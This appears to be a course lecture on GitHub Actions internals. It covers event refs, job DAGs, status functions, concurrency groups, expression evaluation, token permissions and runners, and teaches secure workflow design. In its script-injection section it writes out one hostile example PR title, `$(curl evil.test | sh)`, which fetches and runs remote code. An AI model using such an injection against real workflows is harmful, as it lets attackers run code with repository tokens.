







# Week 1, Day 1 — Scheduler Internals and the Workflow Graph

**Module:** Execution model  

**Prerequisites:** Comfortable reading production YAML; you already ship Python/R.  

**Companion drills:** [`../activities/day-01-workflow-graph-drills.md`](../activities/day-01-workflow-graph-drills.md)

---

## 1. What you are actually programming

A workflow file is not a script. It is a **declaration** submitted to a multi-tenant scheduler. The scheduler admits a *run* when an event matches a workflow’s trigger predicates, materializes a **job DAG**, assigns each ready job to a **runner**, and executes that job’s steps sequentially on the assigned machine.

Four objects matter. Confusing them is how senior engineers still ship broken pipelines.

| Object | Lifetime | Isolation | What it owns |
|---|---|---|---|
| **Workflow run** | One admitted event | Shared `GITHUB_TOKEN` default, shared concurrency domain | The DAG, the event payload, the run-level env |
| **Job** | Until its steps finish or are cancelled | Fresh workspace (GitHub-hosted); *not* guaranteed on a dirty self-hosted runner | `needs` edges, `if`, `permissions`, `environment`, `concurrency` (can override) |
| **Step** | Seconds to minutes | Same workspace and process-adjacent filesystem as sibling steps | `id`, outputs, `if`, the shell that interpolates `${{ }}` *before* `run:` |
| **Action** | The step that `uses:` it | Composite = caller’s job VM; JS = node process on the VM; Docker = container on the VM | Its own `action.yml` inputs/outputs; **not** a security boundary from the job |



The rest of this lecture is the admission path, the DAG, the expression language that steers both, the token the jobs receive, and the machines that execute them.

---

## 2. Event ingress: what actually creates a run

GitHub does not “run your YAML.” An **event** arrives. The control plane lists workflow files on the **ref that owns the workflow definition**, evaluates `on:`, and *maybe* creates a run.

That last clause is load-bearing. For `pull_request`, the workflow file is read from the **merge ref** (`refs/pull/<n>/merge`) when it exists, otherwise from the PR head. For `push`, it is read from the pushed commit. For `pull_request_target`, it is read from the **base** branch. If you do not know which ref supplied the YAML, you do not know whose code you just privileged.

### 2.1 Events that matter in production

| Event | Typical use | Definition ref | Default `GITHUB_TOKEN` on forks |
|---|---|---|---|
| `push` | CI on default branch, tag builds | The pushed SHA | N/A (not a PR) |
| `pull_request` | Untrusted contributor CI | Merge/head of the PR | Read-only; secrets **not** passed |
| `pull_request_target` | Privileged comment / label / triage | **Base branch** | Write-capable; secrets **are** available |
| `merge_group` | Merge queue speculative merge | The queued merge commit | Privileged; this is `main`-equivalent |
| `workflow_dispatch` | Human or bot button | The selected ref | Privileged |
| `workflow_call` | Reusable workflow entry | Caller’s called ref | Inherited / mapped |
| `schedule` | Cron on the **default branch only** | Default branch | Privileged |
| `repository_dispatch` | Cross-repo fan-out | Default branch | Privileged |
| `release` | Tag-adjacent promotion | The release tag’s commit | Privileged |
| `workflow_run` | “After CI, do X” | Default branch | Privileged — **dangerous** if you consume the triggering run’s artifacts blindly |

`workflow_run` and `pull_request_target` are the two events that turn “I know YAML” into an incident. Both execute **trusted** workflow code with **untrusted** data in reach. We will treat them as privileged entry points, not convenience features.

```mermaid
sequenceDiagram
  participant Actor
  participant GH as GitHub control plane
  participant Ref as Workflow definition ref
  participant Sched as Job scheduler

  Actor->>GH: Event (push / PR / dispatch / ...)
  GH->>Ref: Resolve workflow YAML
  Note over Ref: push = event SHA<br/>pull_request = merge ref<br/>pull_request_target = base
  GH->>GH: Evaluate on: filters
  alt predicates fail
    GH-->>Actor: No run created
  else predicates pass
    GH->>Sched: Create workflow run
    Sched-->>Actor: Jobs queued against runners
  end
```

### 2.2 `types` and activity filters

Most events are families. `pull_request` fires on `opened`, `synchronize`, `reopened`, `ready_for_review`, `labeled`, … If you omit `types`, you inherit the platform default set — which is **not** “every activity.” Draft PRs, for example, still trigger `opened`/`synchronize` unless you filter them in the job `if`.

```yaml
on:
  pull_request:
    types: [opened, synchronize, reopened, ready_for_review]
    branches: [main]
    paths:
      - "src/**"
      - "pyproject.toml"
      - "renv.lock"
```

`branches` / `branches-ignore` match the **base** for PRs and the **destination ref** for pushes. `tags` / `tags-ignore` are push-only.

You **cannot** use `paths` and `paths-ignore` for the same event in one workflow — GitHub rejects the file. Same rule for `branches` / `branches-ignore`. Pick the positive or the negative form and express the rest with glob negation:

```yaml
on:
  push:
    paths:
      - "src/**"
      - "!src/**/*.md"   # negation inside paths, not a second key
```

### 2.3 Path filters lie in the ways that hurt

Path filters compare the event’s changed-file list against globs. They do **not** compute a build graph.

- A squash merge onto `main` can look like one giant diff; a merge commit can look like no unique files.
- Renaming `src/a.py` → `src/b.py` is a path change. Changing a shared `conftest.py` that your path filter omitted is a silent skip.
- `paths` on `pull_request` uses the PR’s file list. The same workflow on `push` to `main` uses the push’s commit range. They are not the same set.

If correctness depends on “did anything this package imports change?”, path filters are a *hint*, not a contract. Week 3 replaces them with an affected-target computation. Today, treat `paths` as a cost control that you must be willing to be wrong about.

### 2.4 `schedule` is not a daemon

```yaml
on:
  schedule:
    - cron: "17 4 * * 1-5"
```

Cron is UTC, evaluated on the default branch, and **best-effort**. GitHub documents delays under load. A skipped tick is not retried. If the job is a compliance control, you need an external watchdog (or `workflow_dispatch` from a system that pages), not faith in `schedule`.

The jitter in the minute field (`17` instead of `0`) is deliberate. On the hour, you share a thundering herd with every other repo on the platform.

---

## 3. The job DAG

Jobs are the scheduler’s unit of parallelism. Steps inside a job are strictly sequential on one runner. If two chunks of work can overlap, they are jobs (or a matrix expansion of a job). If they must share a filesystem without uploading artifacts, they are steps.

### 3.1 `needs` is a directed edge

```yaml
jobs:
  lint:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: ruff check .

  test:
    needs: lint
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: pytest

  notify:
    needs: [lint, test]
    if: always()
    runs-on: ubuntu-latest
    steps:
      - run: echo "lint=${{ needs.lint.result }} test=${{ needs.test.result }}"
```



`needs` is both **ordering** and **dataflow**. `needs.<job_id>.result` ∈ `{success, failure, cancelled, skipped}`. `needs.<job_id>.outputs.<name>` is only populated if the upstream job defined `outputs:` and actually produced them.

A job with `needs: [a, b]` is **skipped** if any needed job was skipped — unless you override with `if:`. This is the single most common “why didn’t my notify job run?” bug.

### 3.2 Status functions are not boolean sugar

| Expression | True when |
|---|---|
| `success()` | All `needs` jobs succeeded (or there are none) |
| `failure()` | At least one `needs` job failed |
| `cancelled()` | The run or a needed job was cancelled |
| `always()` | Unconditional; still subject to the job being *considered* |

These functions inspect **dependent** jobs when used in a job `if:`. Used in a **step** `if:`, they inspect the **current job’s** prior steps (and the run’s cancellation state). Same names, different scope. Write that on the inside of your eyelid.

Job-level — `failure()` inspects the `needs` jobs:

```yaml
notify:
  needs: [lint, test]
  if: failure()          # true if lint OR test failed
```

Step-level — `failure()` inspects earlier steps in *this* job:

```yaml
steps:
  - run: pytest
  - name: Upload logs even though the previous step failed
    if: failure() && !cancelled()
    uses: actions/upload-artifact@v4
```

A skipped needed job is **not** a failure. `failure()` is false; `success()` is also false. The job is skipped by default. If you want “run notify whenever the DAG finished,” you want:

```yaml
if: always() && !cancelled()
```

and then you branch on `needs.*.result` yourself.

### 3.3 Fan-out, fan-in, and the skip contagion



If `gate` is skipped (`if: false`), every downstream job that `needs: gate` is skipped unless it has an `if:` that explicitly admits skipped dependencies. Skip **propagates**. Design the DAG so that optional work is a leaf, or give every aggregator an explicit `if:`.

A useful pattern: make the expensive jobs `needs` only what they truly require, and give the aggregator:

```yaml
notify:
  needs: [unit-py, unit-r, integration, publish]
  if: always()
```

Then encode the *business* rule in the step, not in the scheduler:

```yaml
- name: Fail the notifier if publish was required and didn't succeed
  if: github.ref == 'refs/heads/main' && needs.publish.result != 'success'
  run: exit 1
```

### 3.4 Job outputs are strings. Pretend they are not.

```yaml
jobs:
  detect:
    runs-on: ubuntu-latest
    outputs:
      matrix: ${{ steps.s.outputs.matrix }}
      should_publish: ${{ steps.s.outputs.should_publish }}
    steps:
      - id: s
        run: |
          python - <<'PY'
          import json, os
          matrix = {"pkg": ["alpha", "beta"]}
          with open(os.environ["GITHUB_OUTPUT"], "a") as fh:
              fh.write(f"matrix={json.dumps(matrix)}\n")
              fh.write("should_publish=true\n")
          PY

  test:
    needs: detect
    if: needs.detect.outputs.should_publish == 'true'
    strategy:
      matrix: ${{ fromJSON(needs.detect.outputs.matrix) }}
    runs-on: ubuntu-latest
    steps:
      - run: echo '${{ matrix.pkg }}'
```

Everything that crosses a job boundary is a **string**. `true` is `"true"`. A matrix is a JSON string you rehydrate with `fromJSON`. Comparing `needs.detect.outputs.should_publish` to the boolean `true` (no quotes) is a silent always-false.

If you generate the JSON in Python, dump compact JSON, and never wrap it in a markdown table or a log line that Actions will try to mask-rewrite mid-string.

---

## 4. Concurrency domains

`concurrency` is a **mutex + optional cancel** on a string key. It is not a queue with fairness guarantees.

```yaml
concurrency:
  group: ci-${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ github.ref != 'refs/heads/main' }}
```



Rules you will violate at 2 a.m.:

1. **The group string is repository-scoped, not workflow-scoped.** Two *different* workflow files that resolve to the same group string share one lock and will cancel or queue each other. This cuts both ways: it is the mechanism you use to make `ci.yml` and `deploy.yml` mutually exclusive, and it is the reason a lazily copy-pasted `group: ci` in twelve workflows serializes your whole repo. Because `github.workflow` is in the default idiom for a reason, drop it only when you *want* cross-workflow exclusion.
2. `cancel-in-progress: true` on `main` will cancel a deploy when someone force-pushes or when a busted bot retriggers. The expression above is the minimum sane default.
3. A cancelled job is `cancelled`, not `failure`. Downstream `if: failure()` will not fire. `if: always()` will.
4. PR `synchronize` + `cancel-in-progress: true` is correct for unit tests and **incorrect** for a job that published a snapshot or applied Terraform mid-run. Split those jobs into a workflow with a stricter group (`deploy-${{ github.ref }}`) and `cancel-in-progress: false`.
5. `github.head_ref` is empty on `push`. If your group is `ci-${{ github.head_ref }}` then every push to every branch after the first PR-less push collides on `ci-`. Use `github.ref` or `github.event.pull_request.number`.

Cost model, because concurrency is a cost lever:

\[
T_{\text{wall}} = T_{\text{queue}} + \max_{j \in \text{critical path}} T_j
\]

Cancel-in-progress reduces \(T_{\text{queue}}\) for humans staring at a PR and **increases** wasted minutes (the cancelled run already burned runner time). Write the inequality you are optimizing; do not cargo-cult `cancel-in-progress: true`.

---

## 5. Contexts and the expression language

`${{ }}` is evaluated by the **control plane** (and again, in limited cases, by the runner) **before** the shell sees the step. It is not bash. It is not Python. It is a small, weakly typed language with a fixed set of contexts.

### 5.1 Contexts you will actually use

| Context | Available | Contains | Leakage risk |
|---|---|---|---|
| `github` | Always | Event, ref, sha, actor, `token`, `event` payload | `github.event` holds PR titles, bodies, issue comments — injection surface |
| `env` | Workflow / job / step | Env vars **already set at that scope** | Values are not secret-masked unless they came from `secrets` |
| `vars` | Always | Org/repo/environment *configuration variables* | Non-secret by design; do not store credentials |
| `secrets` | Jobs that are allowed secrets | Org/repo/environment secrets | Never printed; interpolation into `run:` still lands in process argv |
| `inputs` | `workflow_dispatch` / `workflow_call` | Caller-supplied inputs | Treat as untrusted data |
| `needs` | Jobs with `needs` | Upstream `result` + `outputs` | Outputs are not automatically masked |
| `steps` | Later steps in the same job | `steps.<id>.outputs`, `outcome`, `conclusion` | Same |
| `matrix` / `strategy` | Matrix jobs | The expansion cell | Fine |
| `job` | Job | `job.status`, container info | Fine |
| `runner` | Job | OS, arch, temp dirs | Fine |
| `hashFiles` | Steps (runner-evaluated) | SHA256 of globbed files | Requires checkout first |

`github.token` and `secrets.GITHUB_TOKEN` are the same token. Prefer `permissions:` over treating the token as a secret you rotate.

### 5.2 Operators and functions

Expressions support `==`, `!=`, `&&`, `||`, `!`, `contains`, `startsWith`, `endsWith`, `format`, `join`, `toJSON`, `fromJSON`, `hashFiles`, and the status functions. There is no regex. There is no arithmetic beyond what you smuggle through `fromJSON`.

```yaml
if: >
  github.event_name == 'pull_request' &&
  !github.event.pull_request.draft &&
  contains(fromJSON('["opened","synchronize","reopened"]'), github.event.action)
```

`contains` on a **string** is substring match. `contains` on an **array** is element match. `contains(github.event.pull_request.labels.*.name, 'safe-to-deploy')` is the label check you actually want; `contains(github.event.pull_request.title, 'safe-to-deploy')` is a social-engineering API.

### 5.3 Evaluation order vs the shell

This is the expression-language equivalent of operator precedence: get it wrong and you inject.

```yaml
- name: Dangerous
  run: echo ${{ github.event.pull_request.title }}
```

Evaluation sequence:

1. Control plane substitutes `${{ ... }}`. If the title is `$(curl evil.test | sh)`, the **YAML that the runner receives** is `run: echo $(curl evil.test | sh)`.
2. The runner launches `bash -e {0}` (Linux default) on that string.
3. The shell performs expansions.



The fix is not “be careful.” The fix is **never interpolate untrusted context into `run:`**. Write it to `GITHUB_ENV` / `GITHUB_OUTPUT` via an action that treats it as data, or pass it as an `env:` value and read `"$TITLE"` inside the script — env assignment is still interpolation, but it does not go through the shell parser as *syntax*.

```yaml
- name: Safer
  env:
    TITLE: ${{ github.event.pull_request.title }}
  run: |
    python - <<'PY'
    import os
    title = os.environ["TITLE"]
    print(title)
    PY
```

The title still lands in the environment. A malicious title cannot change the *shape* of the script. That is the bar.

For `pull_request_target` and `workflow_run`, this is a **vulnerability class**, not a style note. Privileged workflow + untrusted interpolation = arbitrary code as the base-branch token.

### 5.4 `hashFiles` and cache identity

`hashFiles('renv.lock', 'requirements.lock')` globs relative to `GITHUB_WORKSPACE` and is evaluated on the runner, **after** checkout. In a job-level `if:` the workspace is not populated yet, so it hashes nothing and returns an empty string — the condition silently misbehaves rather than erroring. Use it where it belongs: as a cache key.

\[
k = \mathrm{hash}(\text{lockfiles}) \;\Vert\; \mathrm{runner.os} \;\Vert\; \text{toolchain id}
\]

If \(k\) does not change when the resolved dependency graph changes, you will ship the wrong cache. If it changes when only comments in an unrelated file change, you will pay cold-start forever. Lockfiles only.

---

## 6. Permissions: the token is a product decision

Every job receives a `GITHUB_TOKEN` (installation-scoped, expires with the run). The **default** permission set is an org-level policy. On modern orgs it is often restrictive; on older orgs it is still `write` to the repository. **Never rely on the default.** Write `permissions:` at the workflow level, then reopen scopes per job.

```yaml
permissions: {}   # workflow default: nothing

jobs:
  test:
    permissions:
      contents: read
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

  comment:
    needs: test
    if: github.event_name == 'pull_request'
    permissions:
      pull-requests: write
      contents: read
    runs-on: ubuntu-latest
    steps:
      - uses: actions/github-script@v7
        with:
          script: |
            github.rest.issues.createComment({
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: context.issue.number,
              body: 'tests passed',
            })

  deploy:
    needs: test
    if: github.ref == 'refs/heads/main'
    permissions:
      contents: read
      id-token: write
    environment: production
    runs-on: ubuntu-latest
    steps:
      - name: Federate
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-prod
          aws-region: ap-southeast-2
```



Rules:

- `id-token: write` is the OIDC permission. It does **not** write to the repo. It lets the job request a JWT that a cloud IdP will exchange. Without it, trusted publishing and keyless deploy do not work.
- Fork PRs from `pull_request` get a read-only token and **no secrets**, even if you asked for `contents: write`. That is a platform hard-stop. Do not “fix” it by switching to `pull_request_target` so you can write a status comment. Write the comment from a privileged workflow that consumes **trusted** artifacts, or accept that first-time contributors do not get write-token jobs.
- `permissions: write-all` is a confession. If a compromised action or an injected `run:` line holds that token, they have your repo.
- Environment protection rules (`environment: production`) are **not** a permission. They are a gate: reviewers, wait timers, branch allow-lists. Use both. The token says what the job *could* do; the environment says whether the job *may start*.

---

## 7. Runner topology as a scheduling API

`runs-on` is not “which VM do I like.” It is a **label query** against a pool.

```yaml
runs-on: ubuntu-latest
# equivalent to a label set GitHub maps to a current Ubuntu image
```

```yaml
runs-on: [self-hosted, linux, x64, python-r]
# assigned only to a runner that advertises ALL of these labels
```



Implications:

- GitHub-hosted runners are **ephemeral**. Workspace dies with the job. That is a security feature. `ubuntu-latest` moves. Pin `ubuntu-24.04` when reproducibility matters; pin the action SHAs always.
- Self-hosted runners are **sticky** unless you invested in ephemeral provisioning. The next job on that box sees leftover files, Docker layers, and anyone’s `~/.netrc`. Week 3 treats this as an isolation problem. Today: do not attach a persistent self-hosted runner to a public repo. GitHub documents this as unsafe and defaults public repos to requiring approval before a fork PR runs — but approval is a human clicking a button, not a sandbox. The fork’s code still executes on your box with whatever the last job left behind.
- Larger runners and runner groups are capacity and policy knobs. A job that says `runs-on: ubuntu-latest` will **never** land on your GPU box. Labels are exact; there is no “best fit” scheduler.
- `timeout-minutes` (job) and `timeout-minutes` (step) are the only things that bound a runaway process. Default job timeout is 360 minutes. Set it to what the job is *worth*.

\[
C_{\text{job}} \approx p_{\text{bill}} \cdot \left(T_{\text{start}} + T_{\text{work}}\right) + C_{\text{idle runner}}
\]

GitHub-hosted: \(C_{\text{idle runner}} = 0\), \(T_{\text{start}}\) is image boot + tool setup. Self-hosted: you pay \(C_{\text{idle}}\) all month. Prebaking Python and R into the image trades \(T_{\text{start}}\) against image freshness. There is no globally correct answer; there is a measured one.

---

## 8. A production-shaped skeleton (annotated)

The following is not a tutorial “first workflow.” It is the shape you should be able to defend in review after today. It is intentionally incomplete (no reusable workflows, no OIDC role, no matrix) — those are Day 2 and Week 2.

```yaml
name: ci

on:
  pull_request:
    types: [opened, synchronize, reopened, ready_for_review]
    branches: [main]
  push:
    branches: [main]
  merge_group:

permissions: {}

concurrency:
  group: ${{ github.workflow }}-${{ github.event.pull_request.number || github.ref }}
  cancel-in-progress: ${{ github.event_name != 'merge_group' && github.ref != 'refs/heads/main' }}

jobs:
  preflight:
    runs-on: ubuntu-24.04
    permissions:
      contents: read
    outputs:
      is_main: ${{ github.ref == 'refs/heads/main' || github.event_name == 'merge_group' }}
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2
      - id: meta
        run: |
          python - <<'PY'
          import os
          print("ok")
          PY

  test:
    needs: preflight
    runs-on: ubuntu-24.04
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2
      - run: pytest -q

  report:
    needs: [preflight, test]
    if: always() && !cancelled()
    runs-on: ubuntu-24.04
    permissions:
      checks: write
      contents: read
    steps:
      - name: Summarize
        env:
          PRE: ${{ needs.preflight.result }}
          TEST: ${{ needs.test.result }}
        run: |
          python - <<'PY'
          import os, sys
          pre, test = os.environ["PRE"], os.environ["TEST"]
          print(f"preflight={pre} test={test}")
          sys.exit(0 if test == "success" else 1)
          PY
```

Defend each line:

| Choice | Why |
|---|---|
| `permissions: {}` then reopen | Default token is not a design input |
| SHA pin on `checkout` | Tags move; SHAs do not |
| `merge_group` in `on:` | Merge queue will otherwise skip your required check |
| Concurrency key uses PR number **or** ref | Avoids the empty `head_ref` collision |
| Cancel in progress except `main` and merge queue | Humans get fast PR signal; deploys and queue jobs are not preempted |
| `report` uses `always() && !cancelled()` | Skip contagion does not eat the aggregator |
| Untrusted data only via `env:` + Python | No `${{ }}` inside a shell string that parses it as syntax |
| `ubuntu-24.04` not `ubuntu-latest` | Reproducibility over fashion |

> **On the pinned SHA:** never copy a SHA out of a lecture, a blog, or another repo. Resolve it yourself (`gh api repos/actions/checkout/git/ref/tags/v4.2.2`) and let Dependabot bump it. A SHA you did not verify is a SHA someone else chose for you.

---

## 9. Failure modes you should be able to diagnose from a run URL

| Symptom | First hypothesis | Confirm |
|---|---|---|
| Workflow never starts on a PR | `paths` filter, `types` filter, workflow file not on the definition ref | “Filter pattern mismatch” in Actions tab; inspect the PR’s merge ref |
| Job grey / skipped | Upstream skipped; `if:` false; `needs` skip contagion | `needs.*.result` in the skipped job’s message |
| Job cancelled mid-flight | Concurrency group collision | A newer run on the same group |
| `if:` always false | String vs boolean (`'true'` vs `true`); wrong context scope | Echo `toJSON(needs)` in a debug job on a throwaway branch |
| Secret empty on a PR | Fork PR; environment secret scoped to another branch | `github.event.pull_request.head.repo.fork` |
| Required check never appears | Matrix job name changed; `merge_group` not in `on:` | Branch protection / ruleset check name list |
| Shell ran attacker-controlled syntax | `${{ github.event.* }}` interpolated into `run:` | Read the rendered step in the log |

---

## 10. What Day 2 will assume you can do cold

- Draw the DAG for a workflow and mark which jobs run for `pull_request`, `push` to `main`, `merge_group`, and a fork PR.
- State which ref supplied the YAML for each of those events.
- Write a concurrency group that cannot cancel `main` and cannot collide on empty `head_ref`.
- Move any untrusted interpolation out of `run:` and into `env:` + Python.
- Set `permissions:` empty at workflow scope and open the minimum job scopes, including `id-token: write` for a future OIDC job.

Open the drills. Do not skip the ones that ask you to break a workflow on purpose; the scheduler is easier to learn by watching it refuse you.
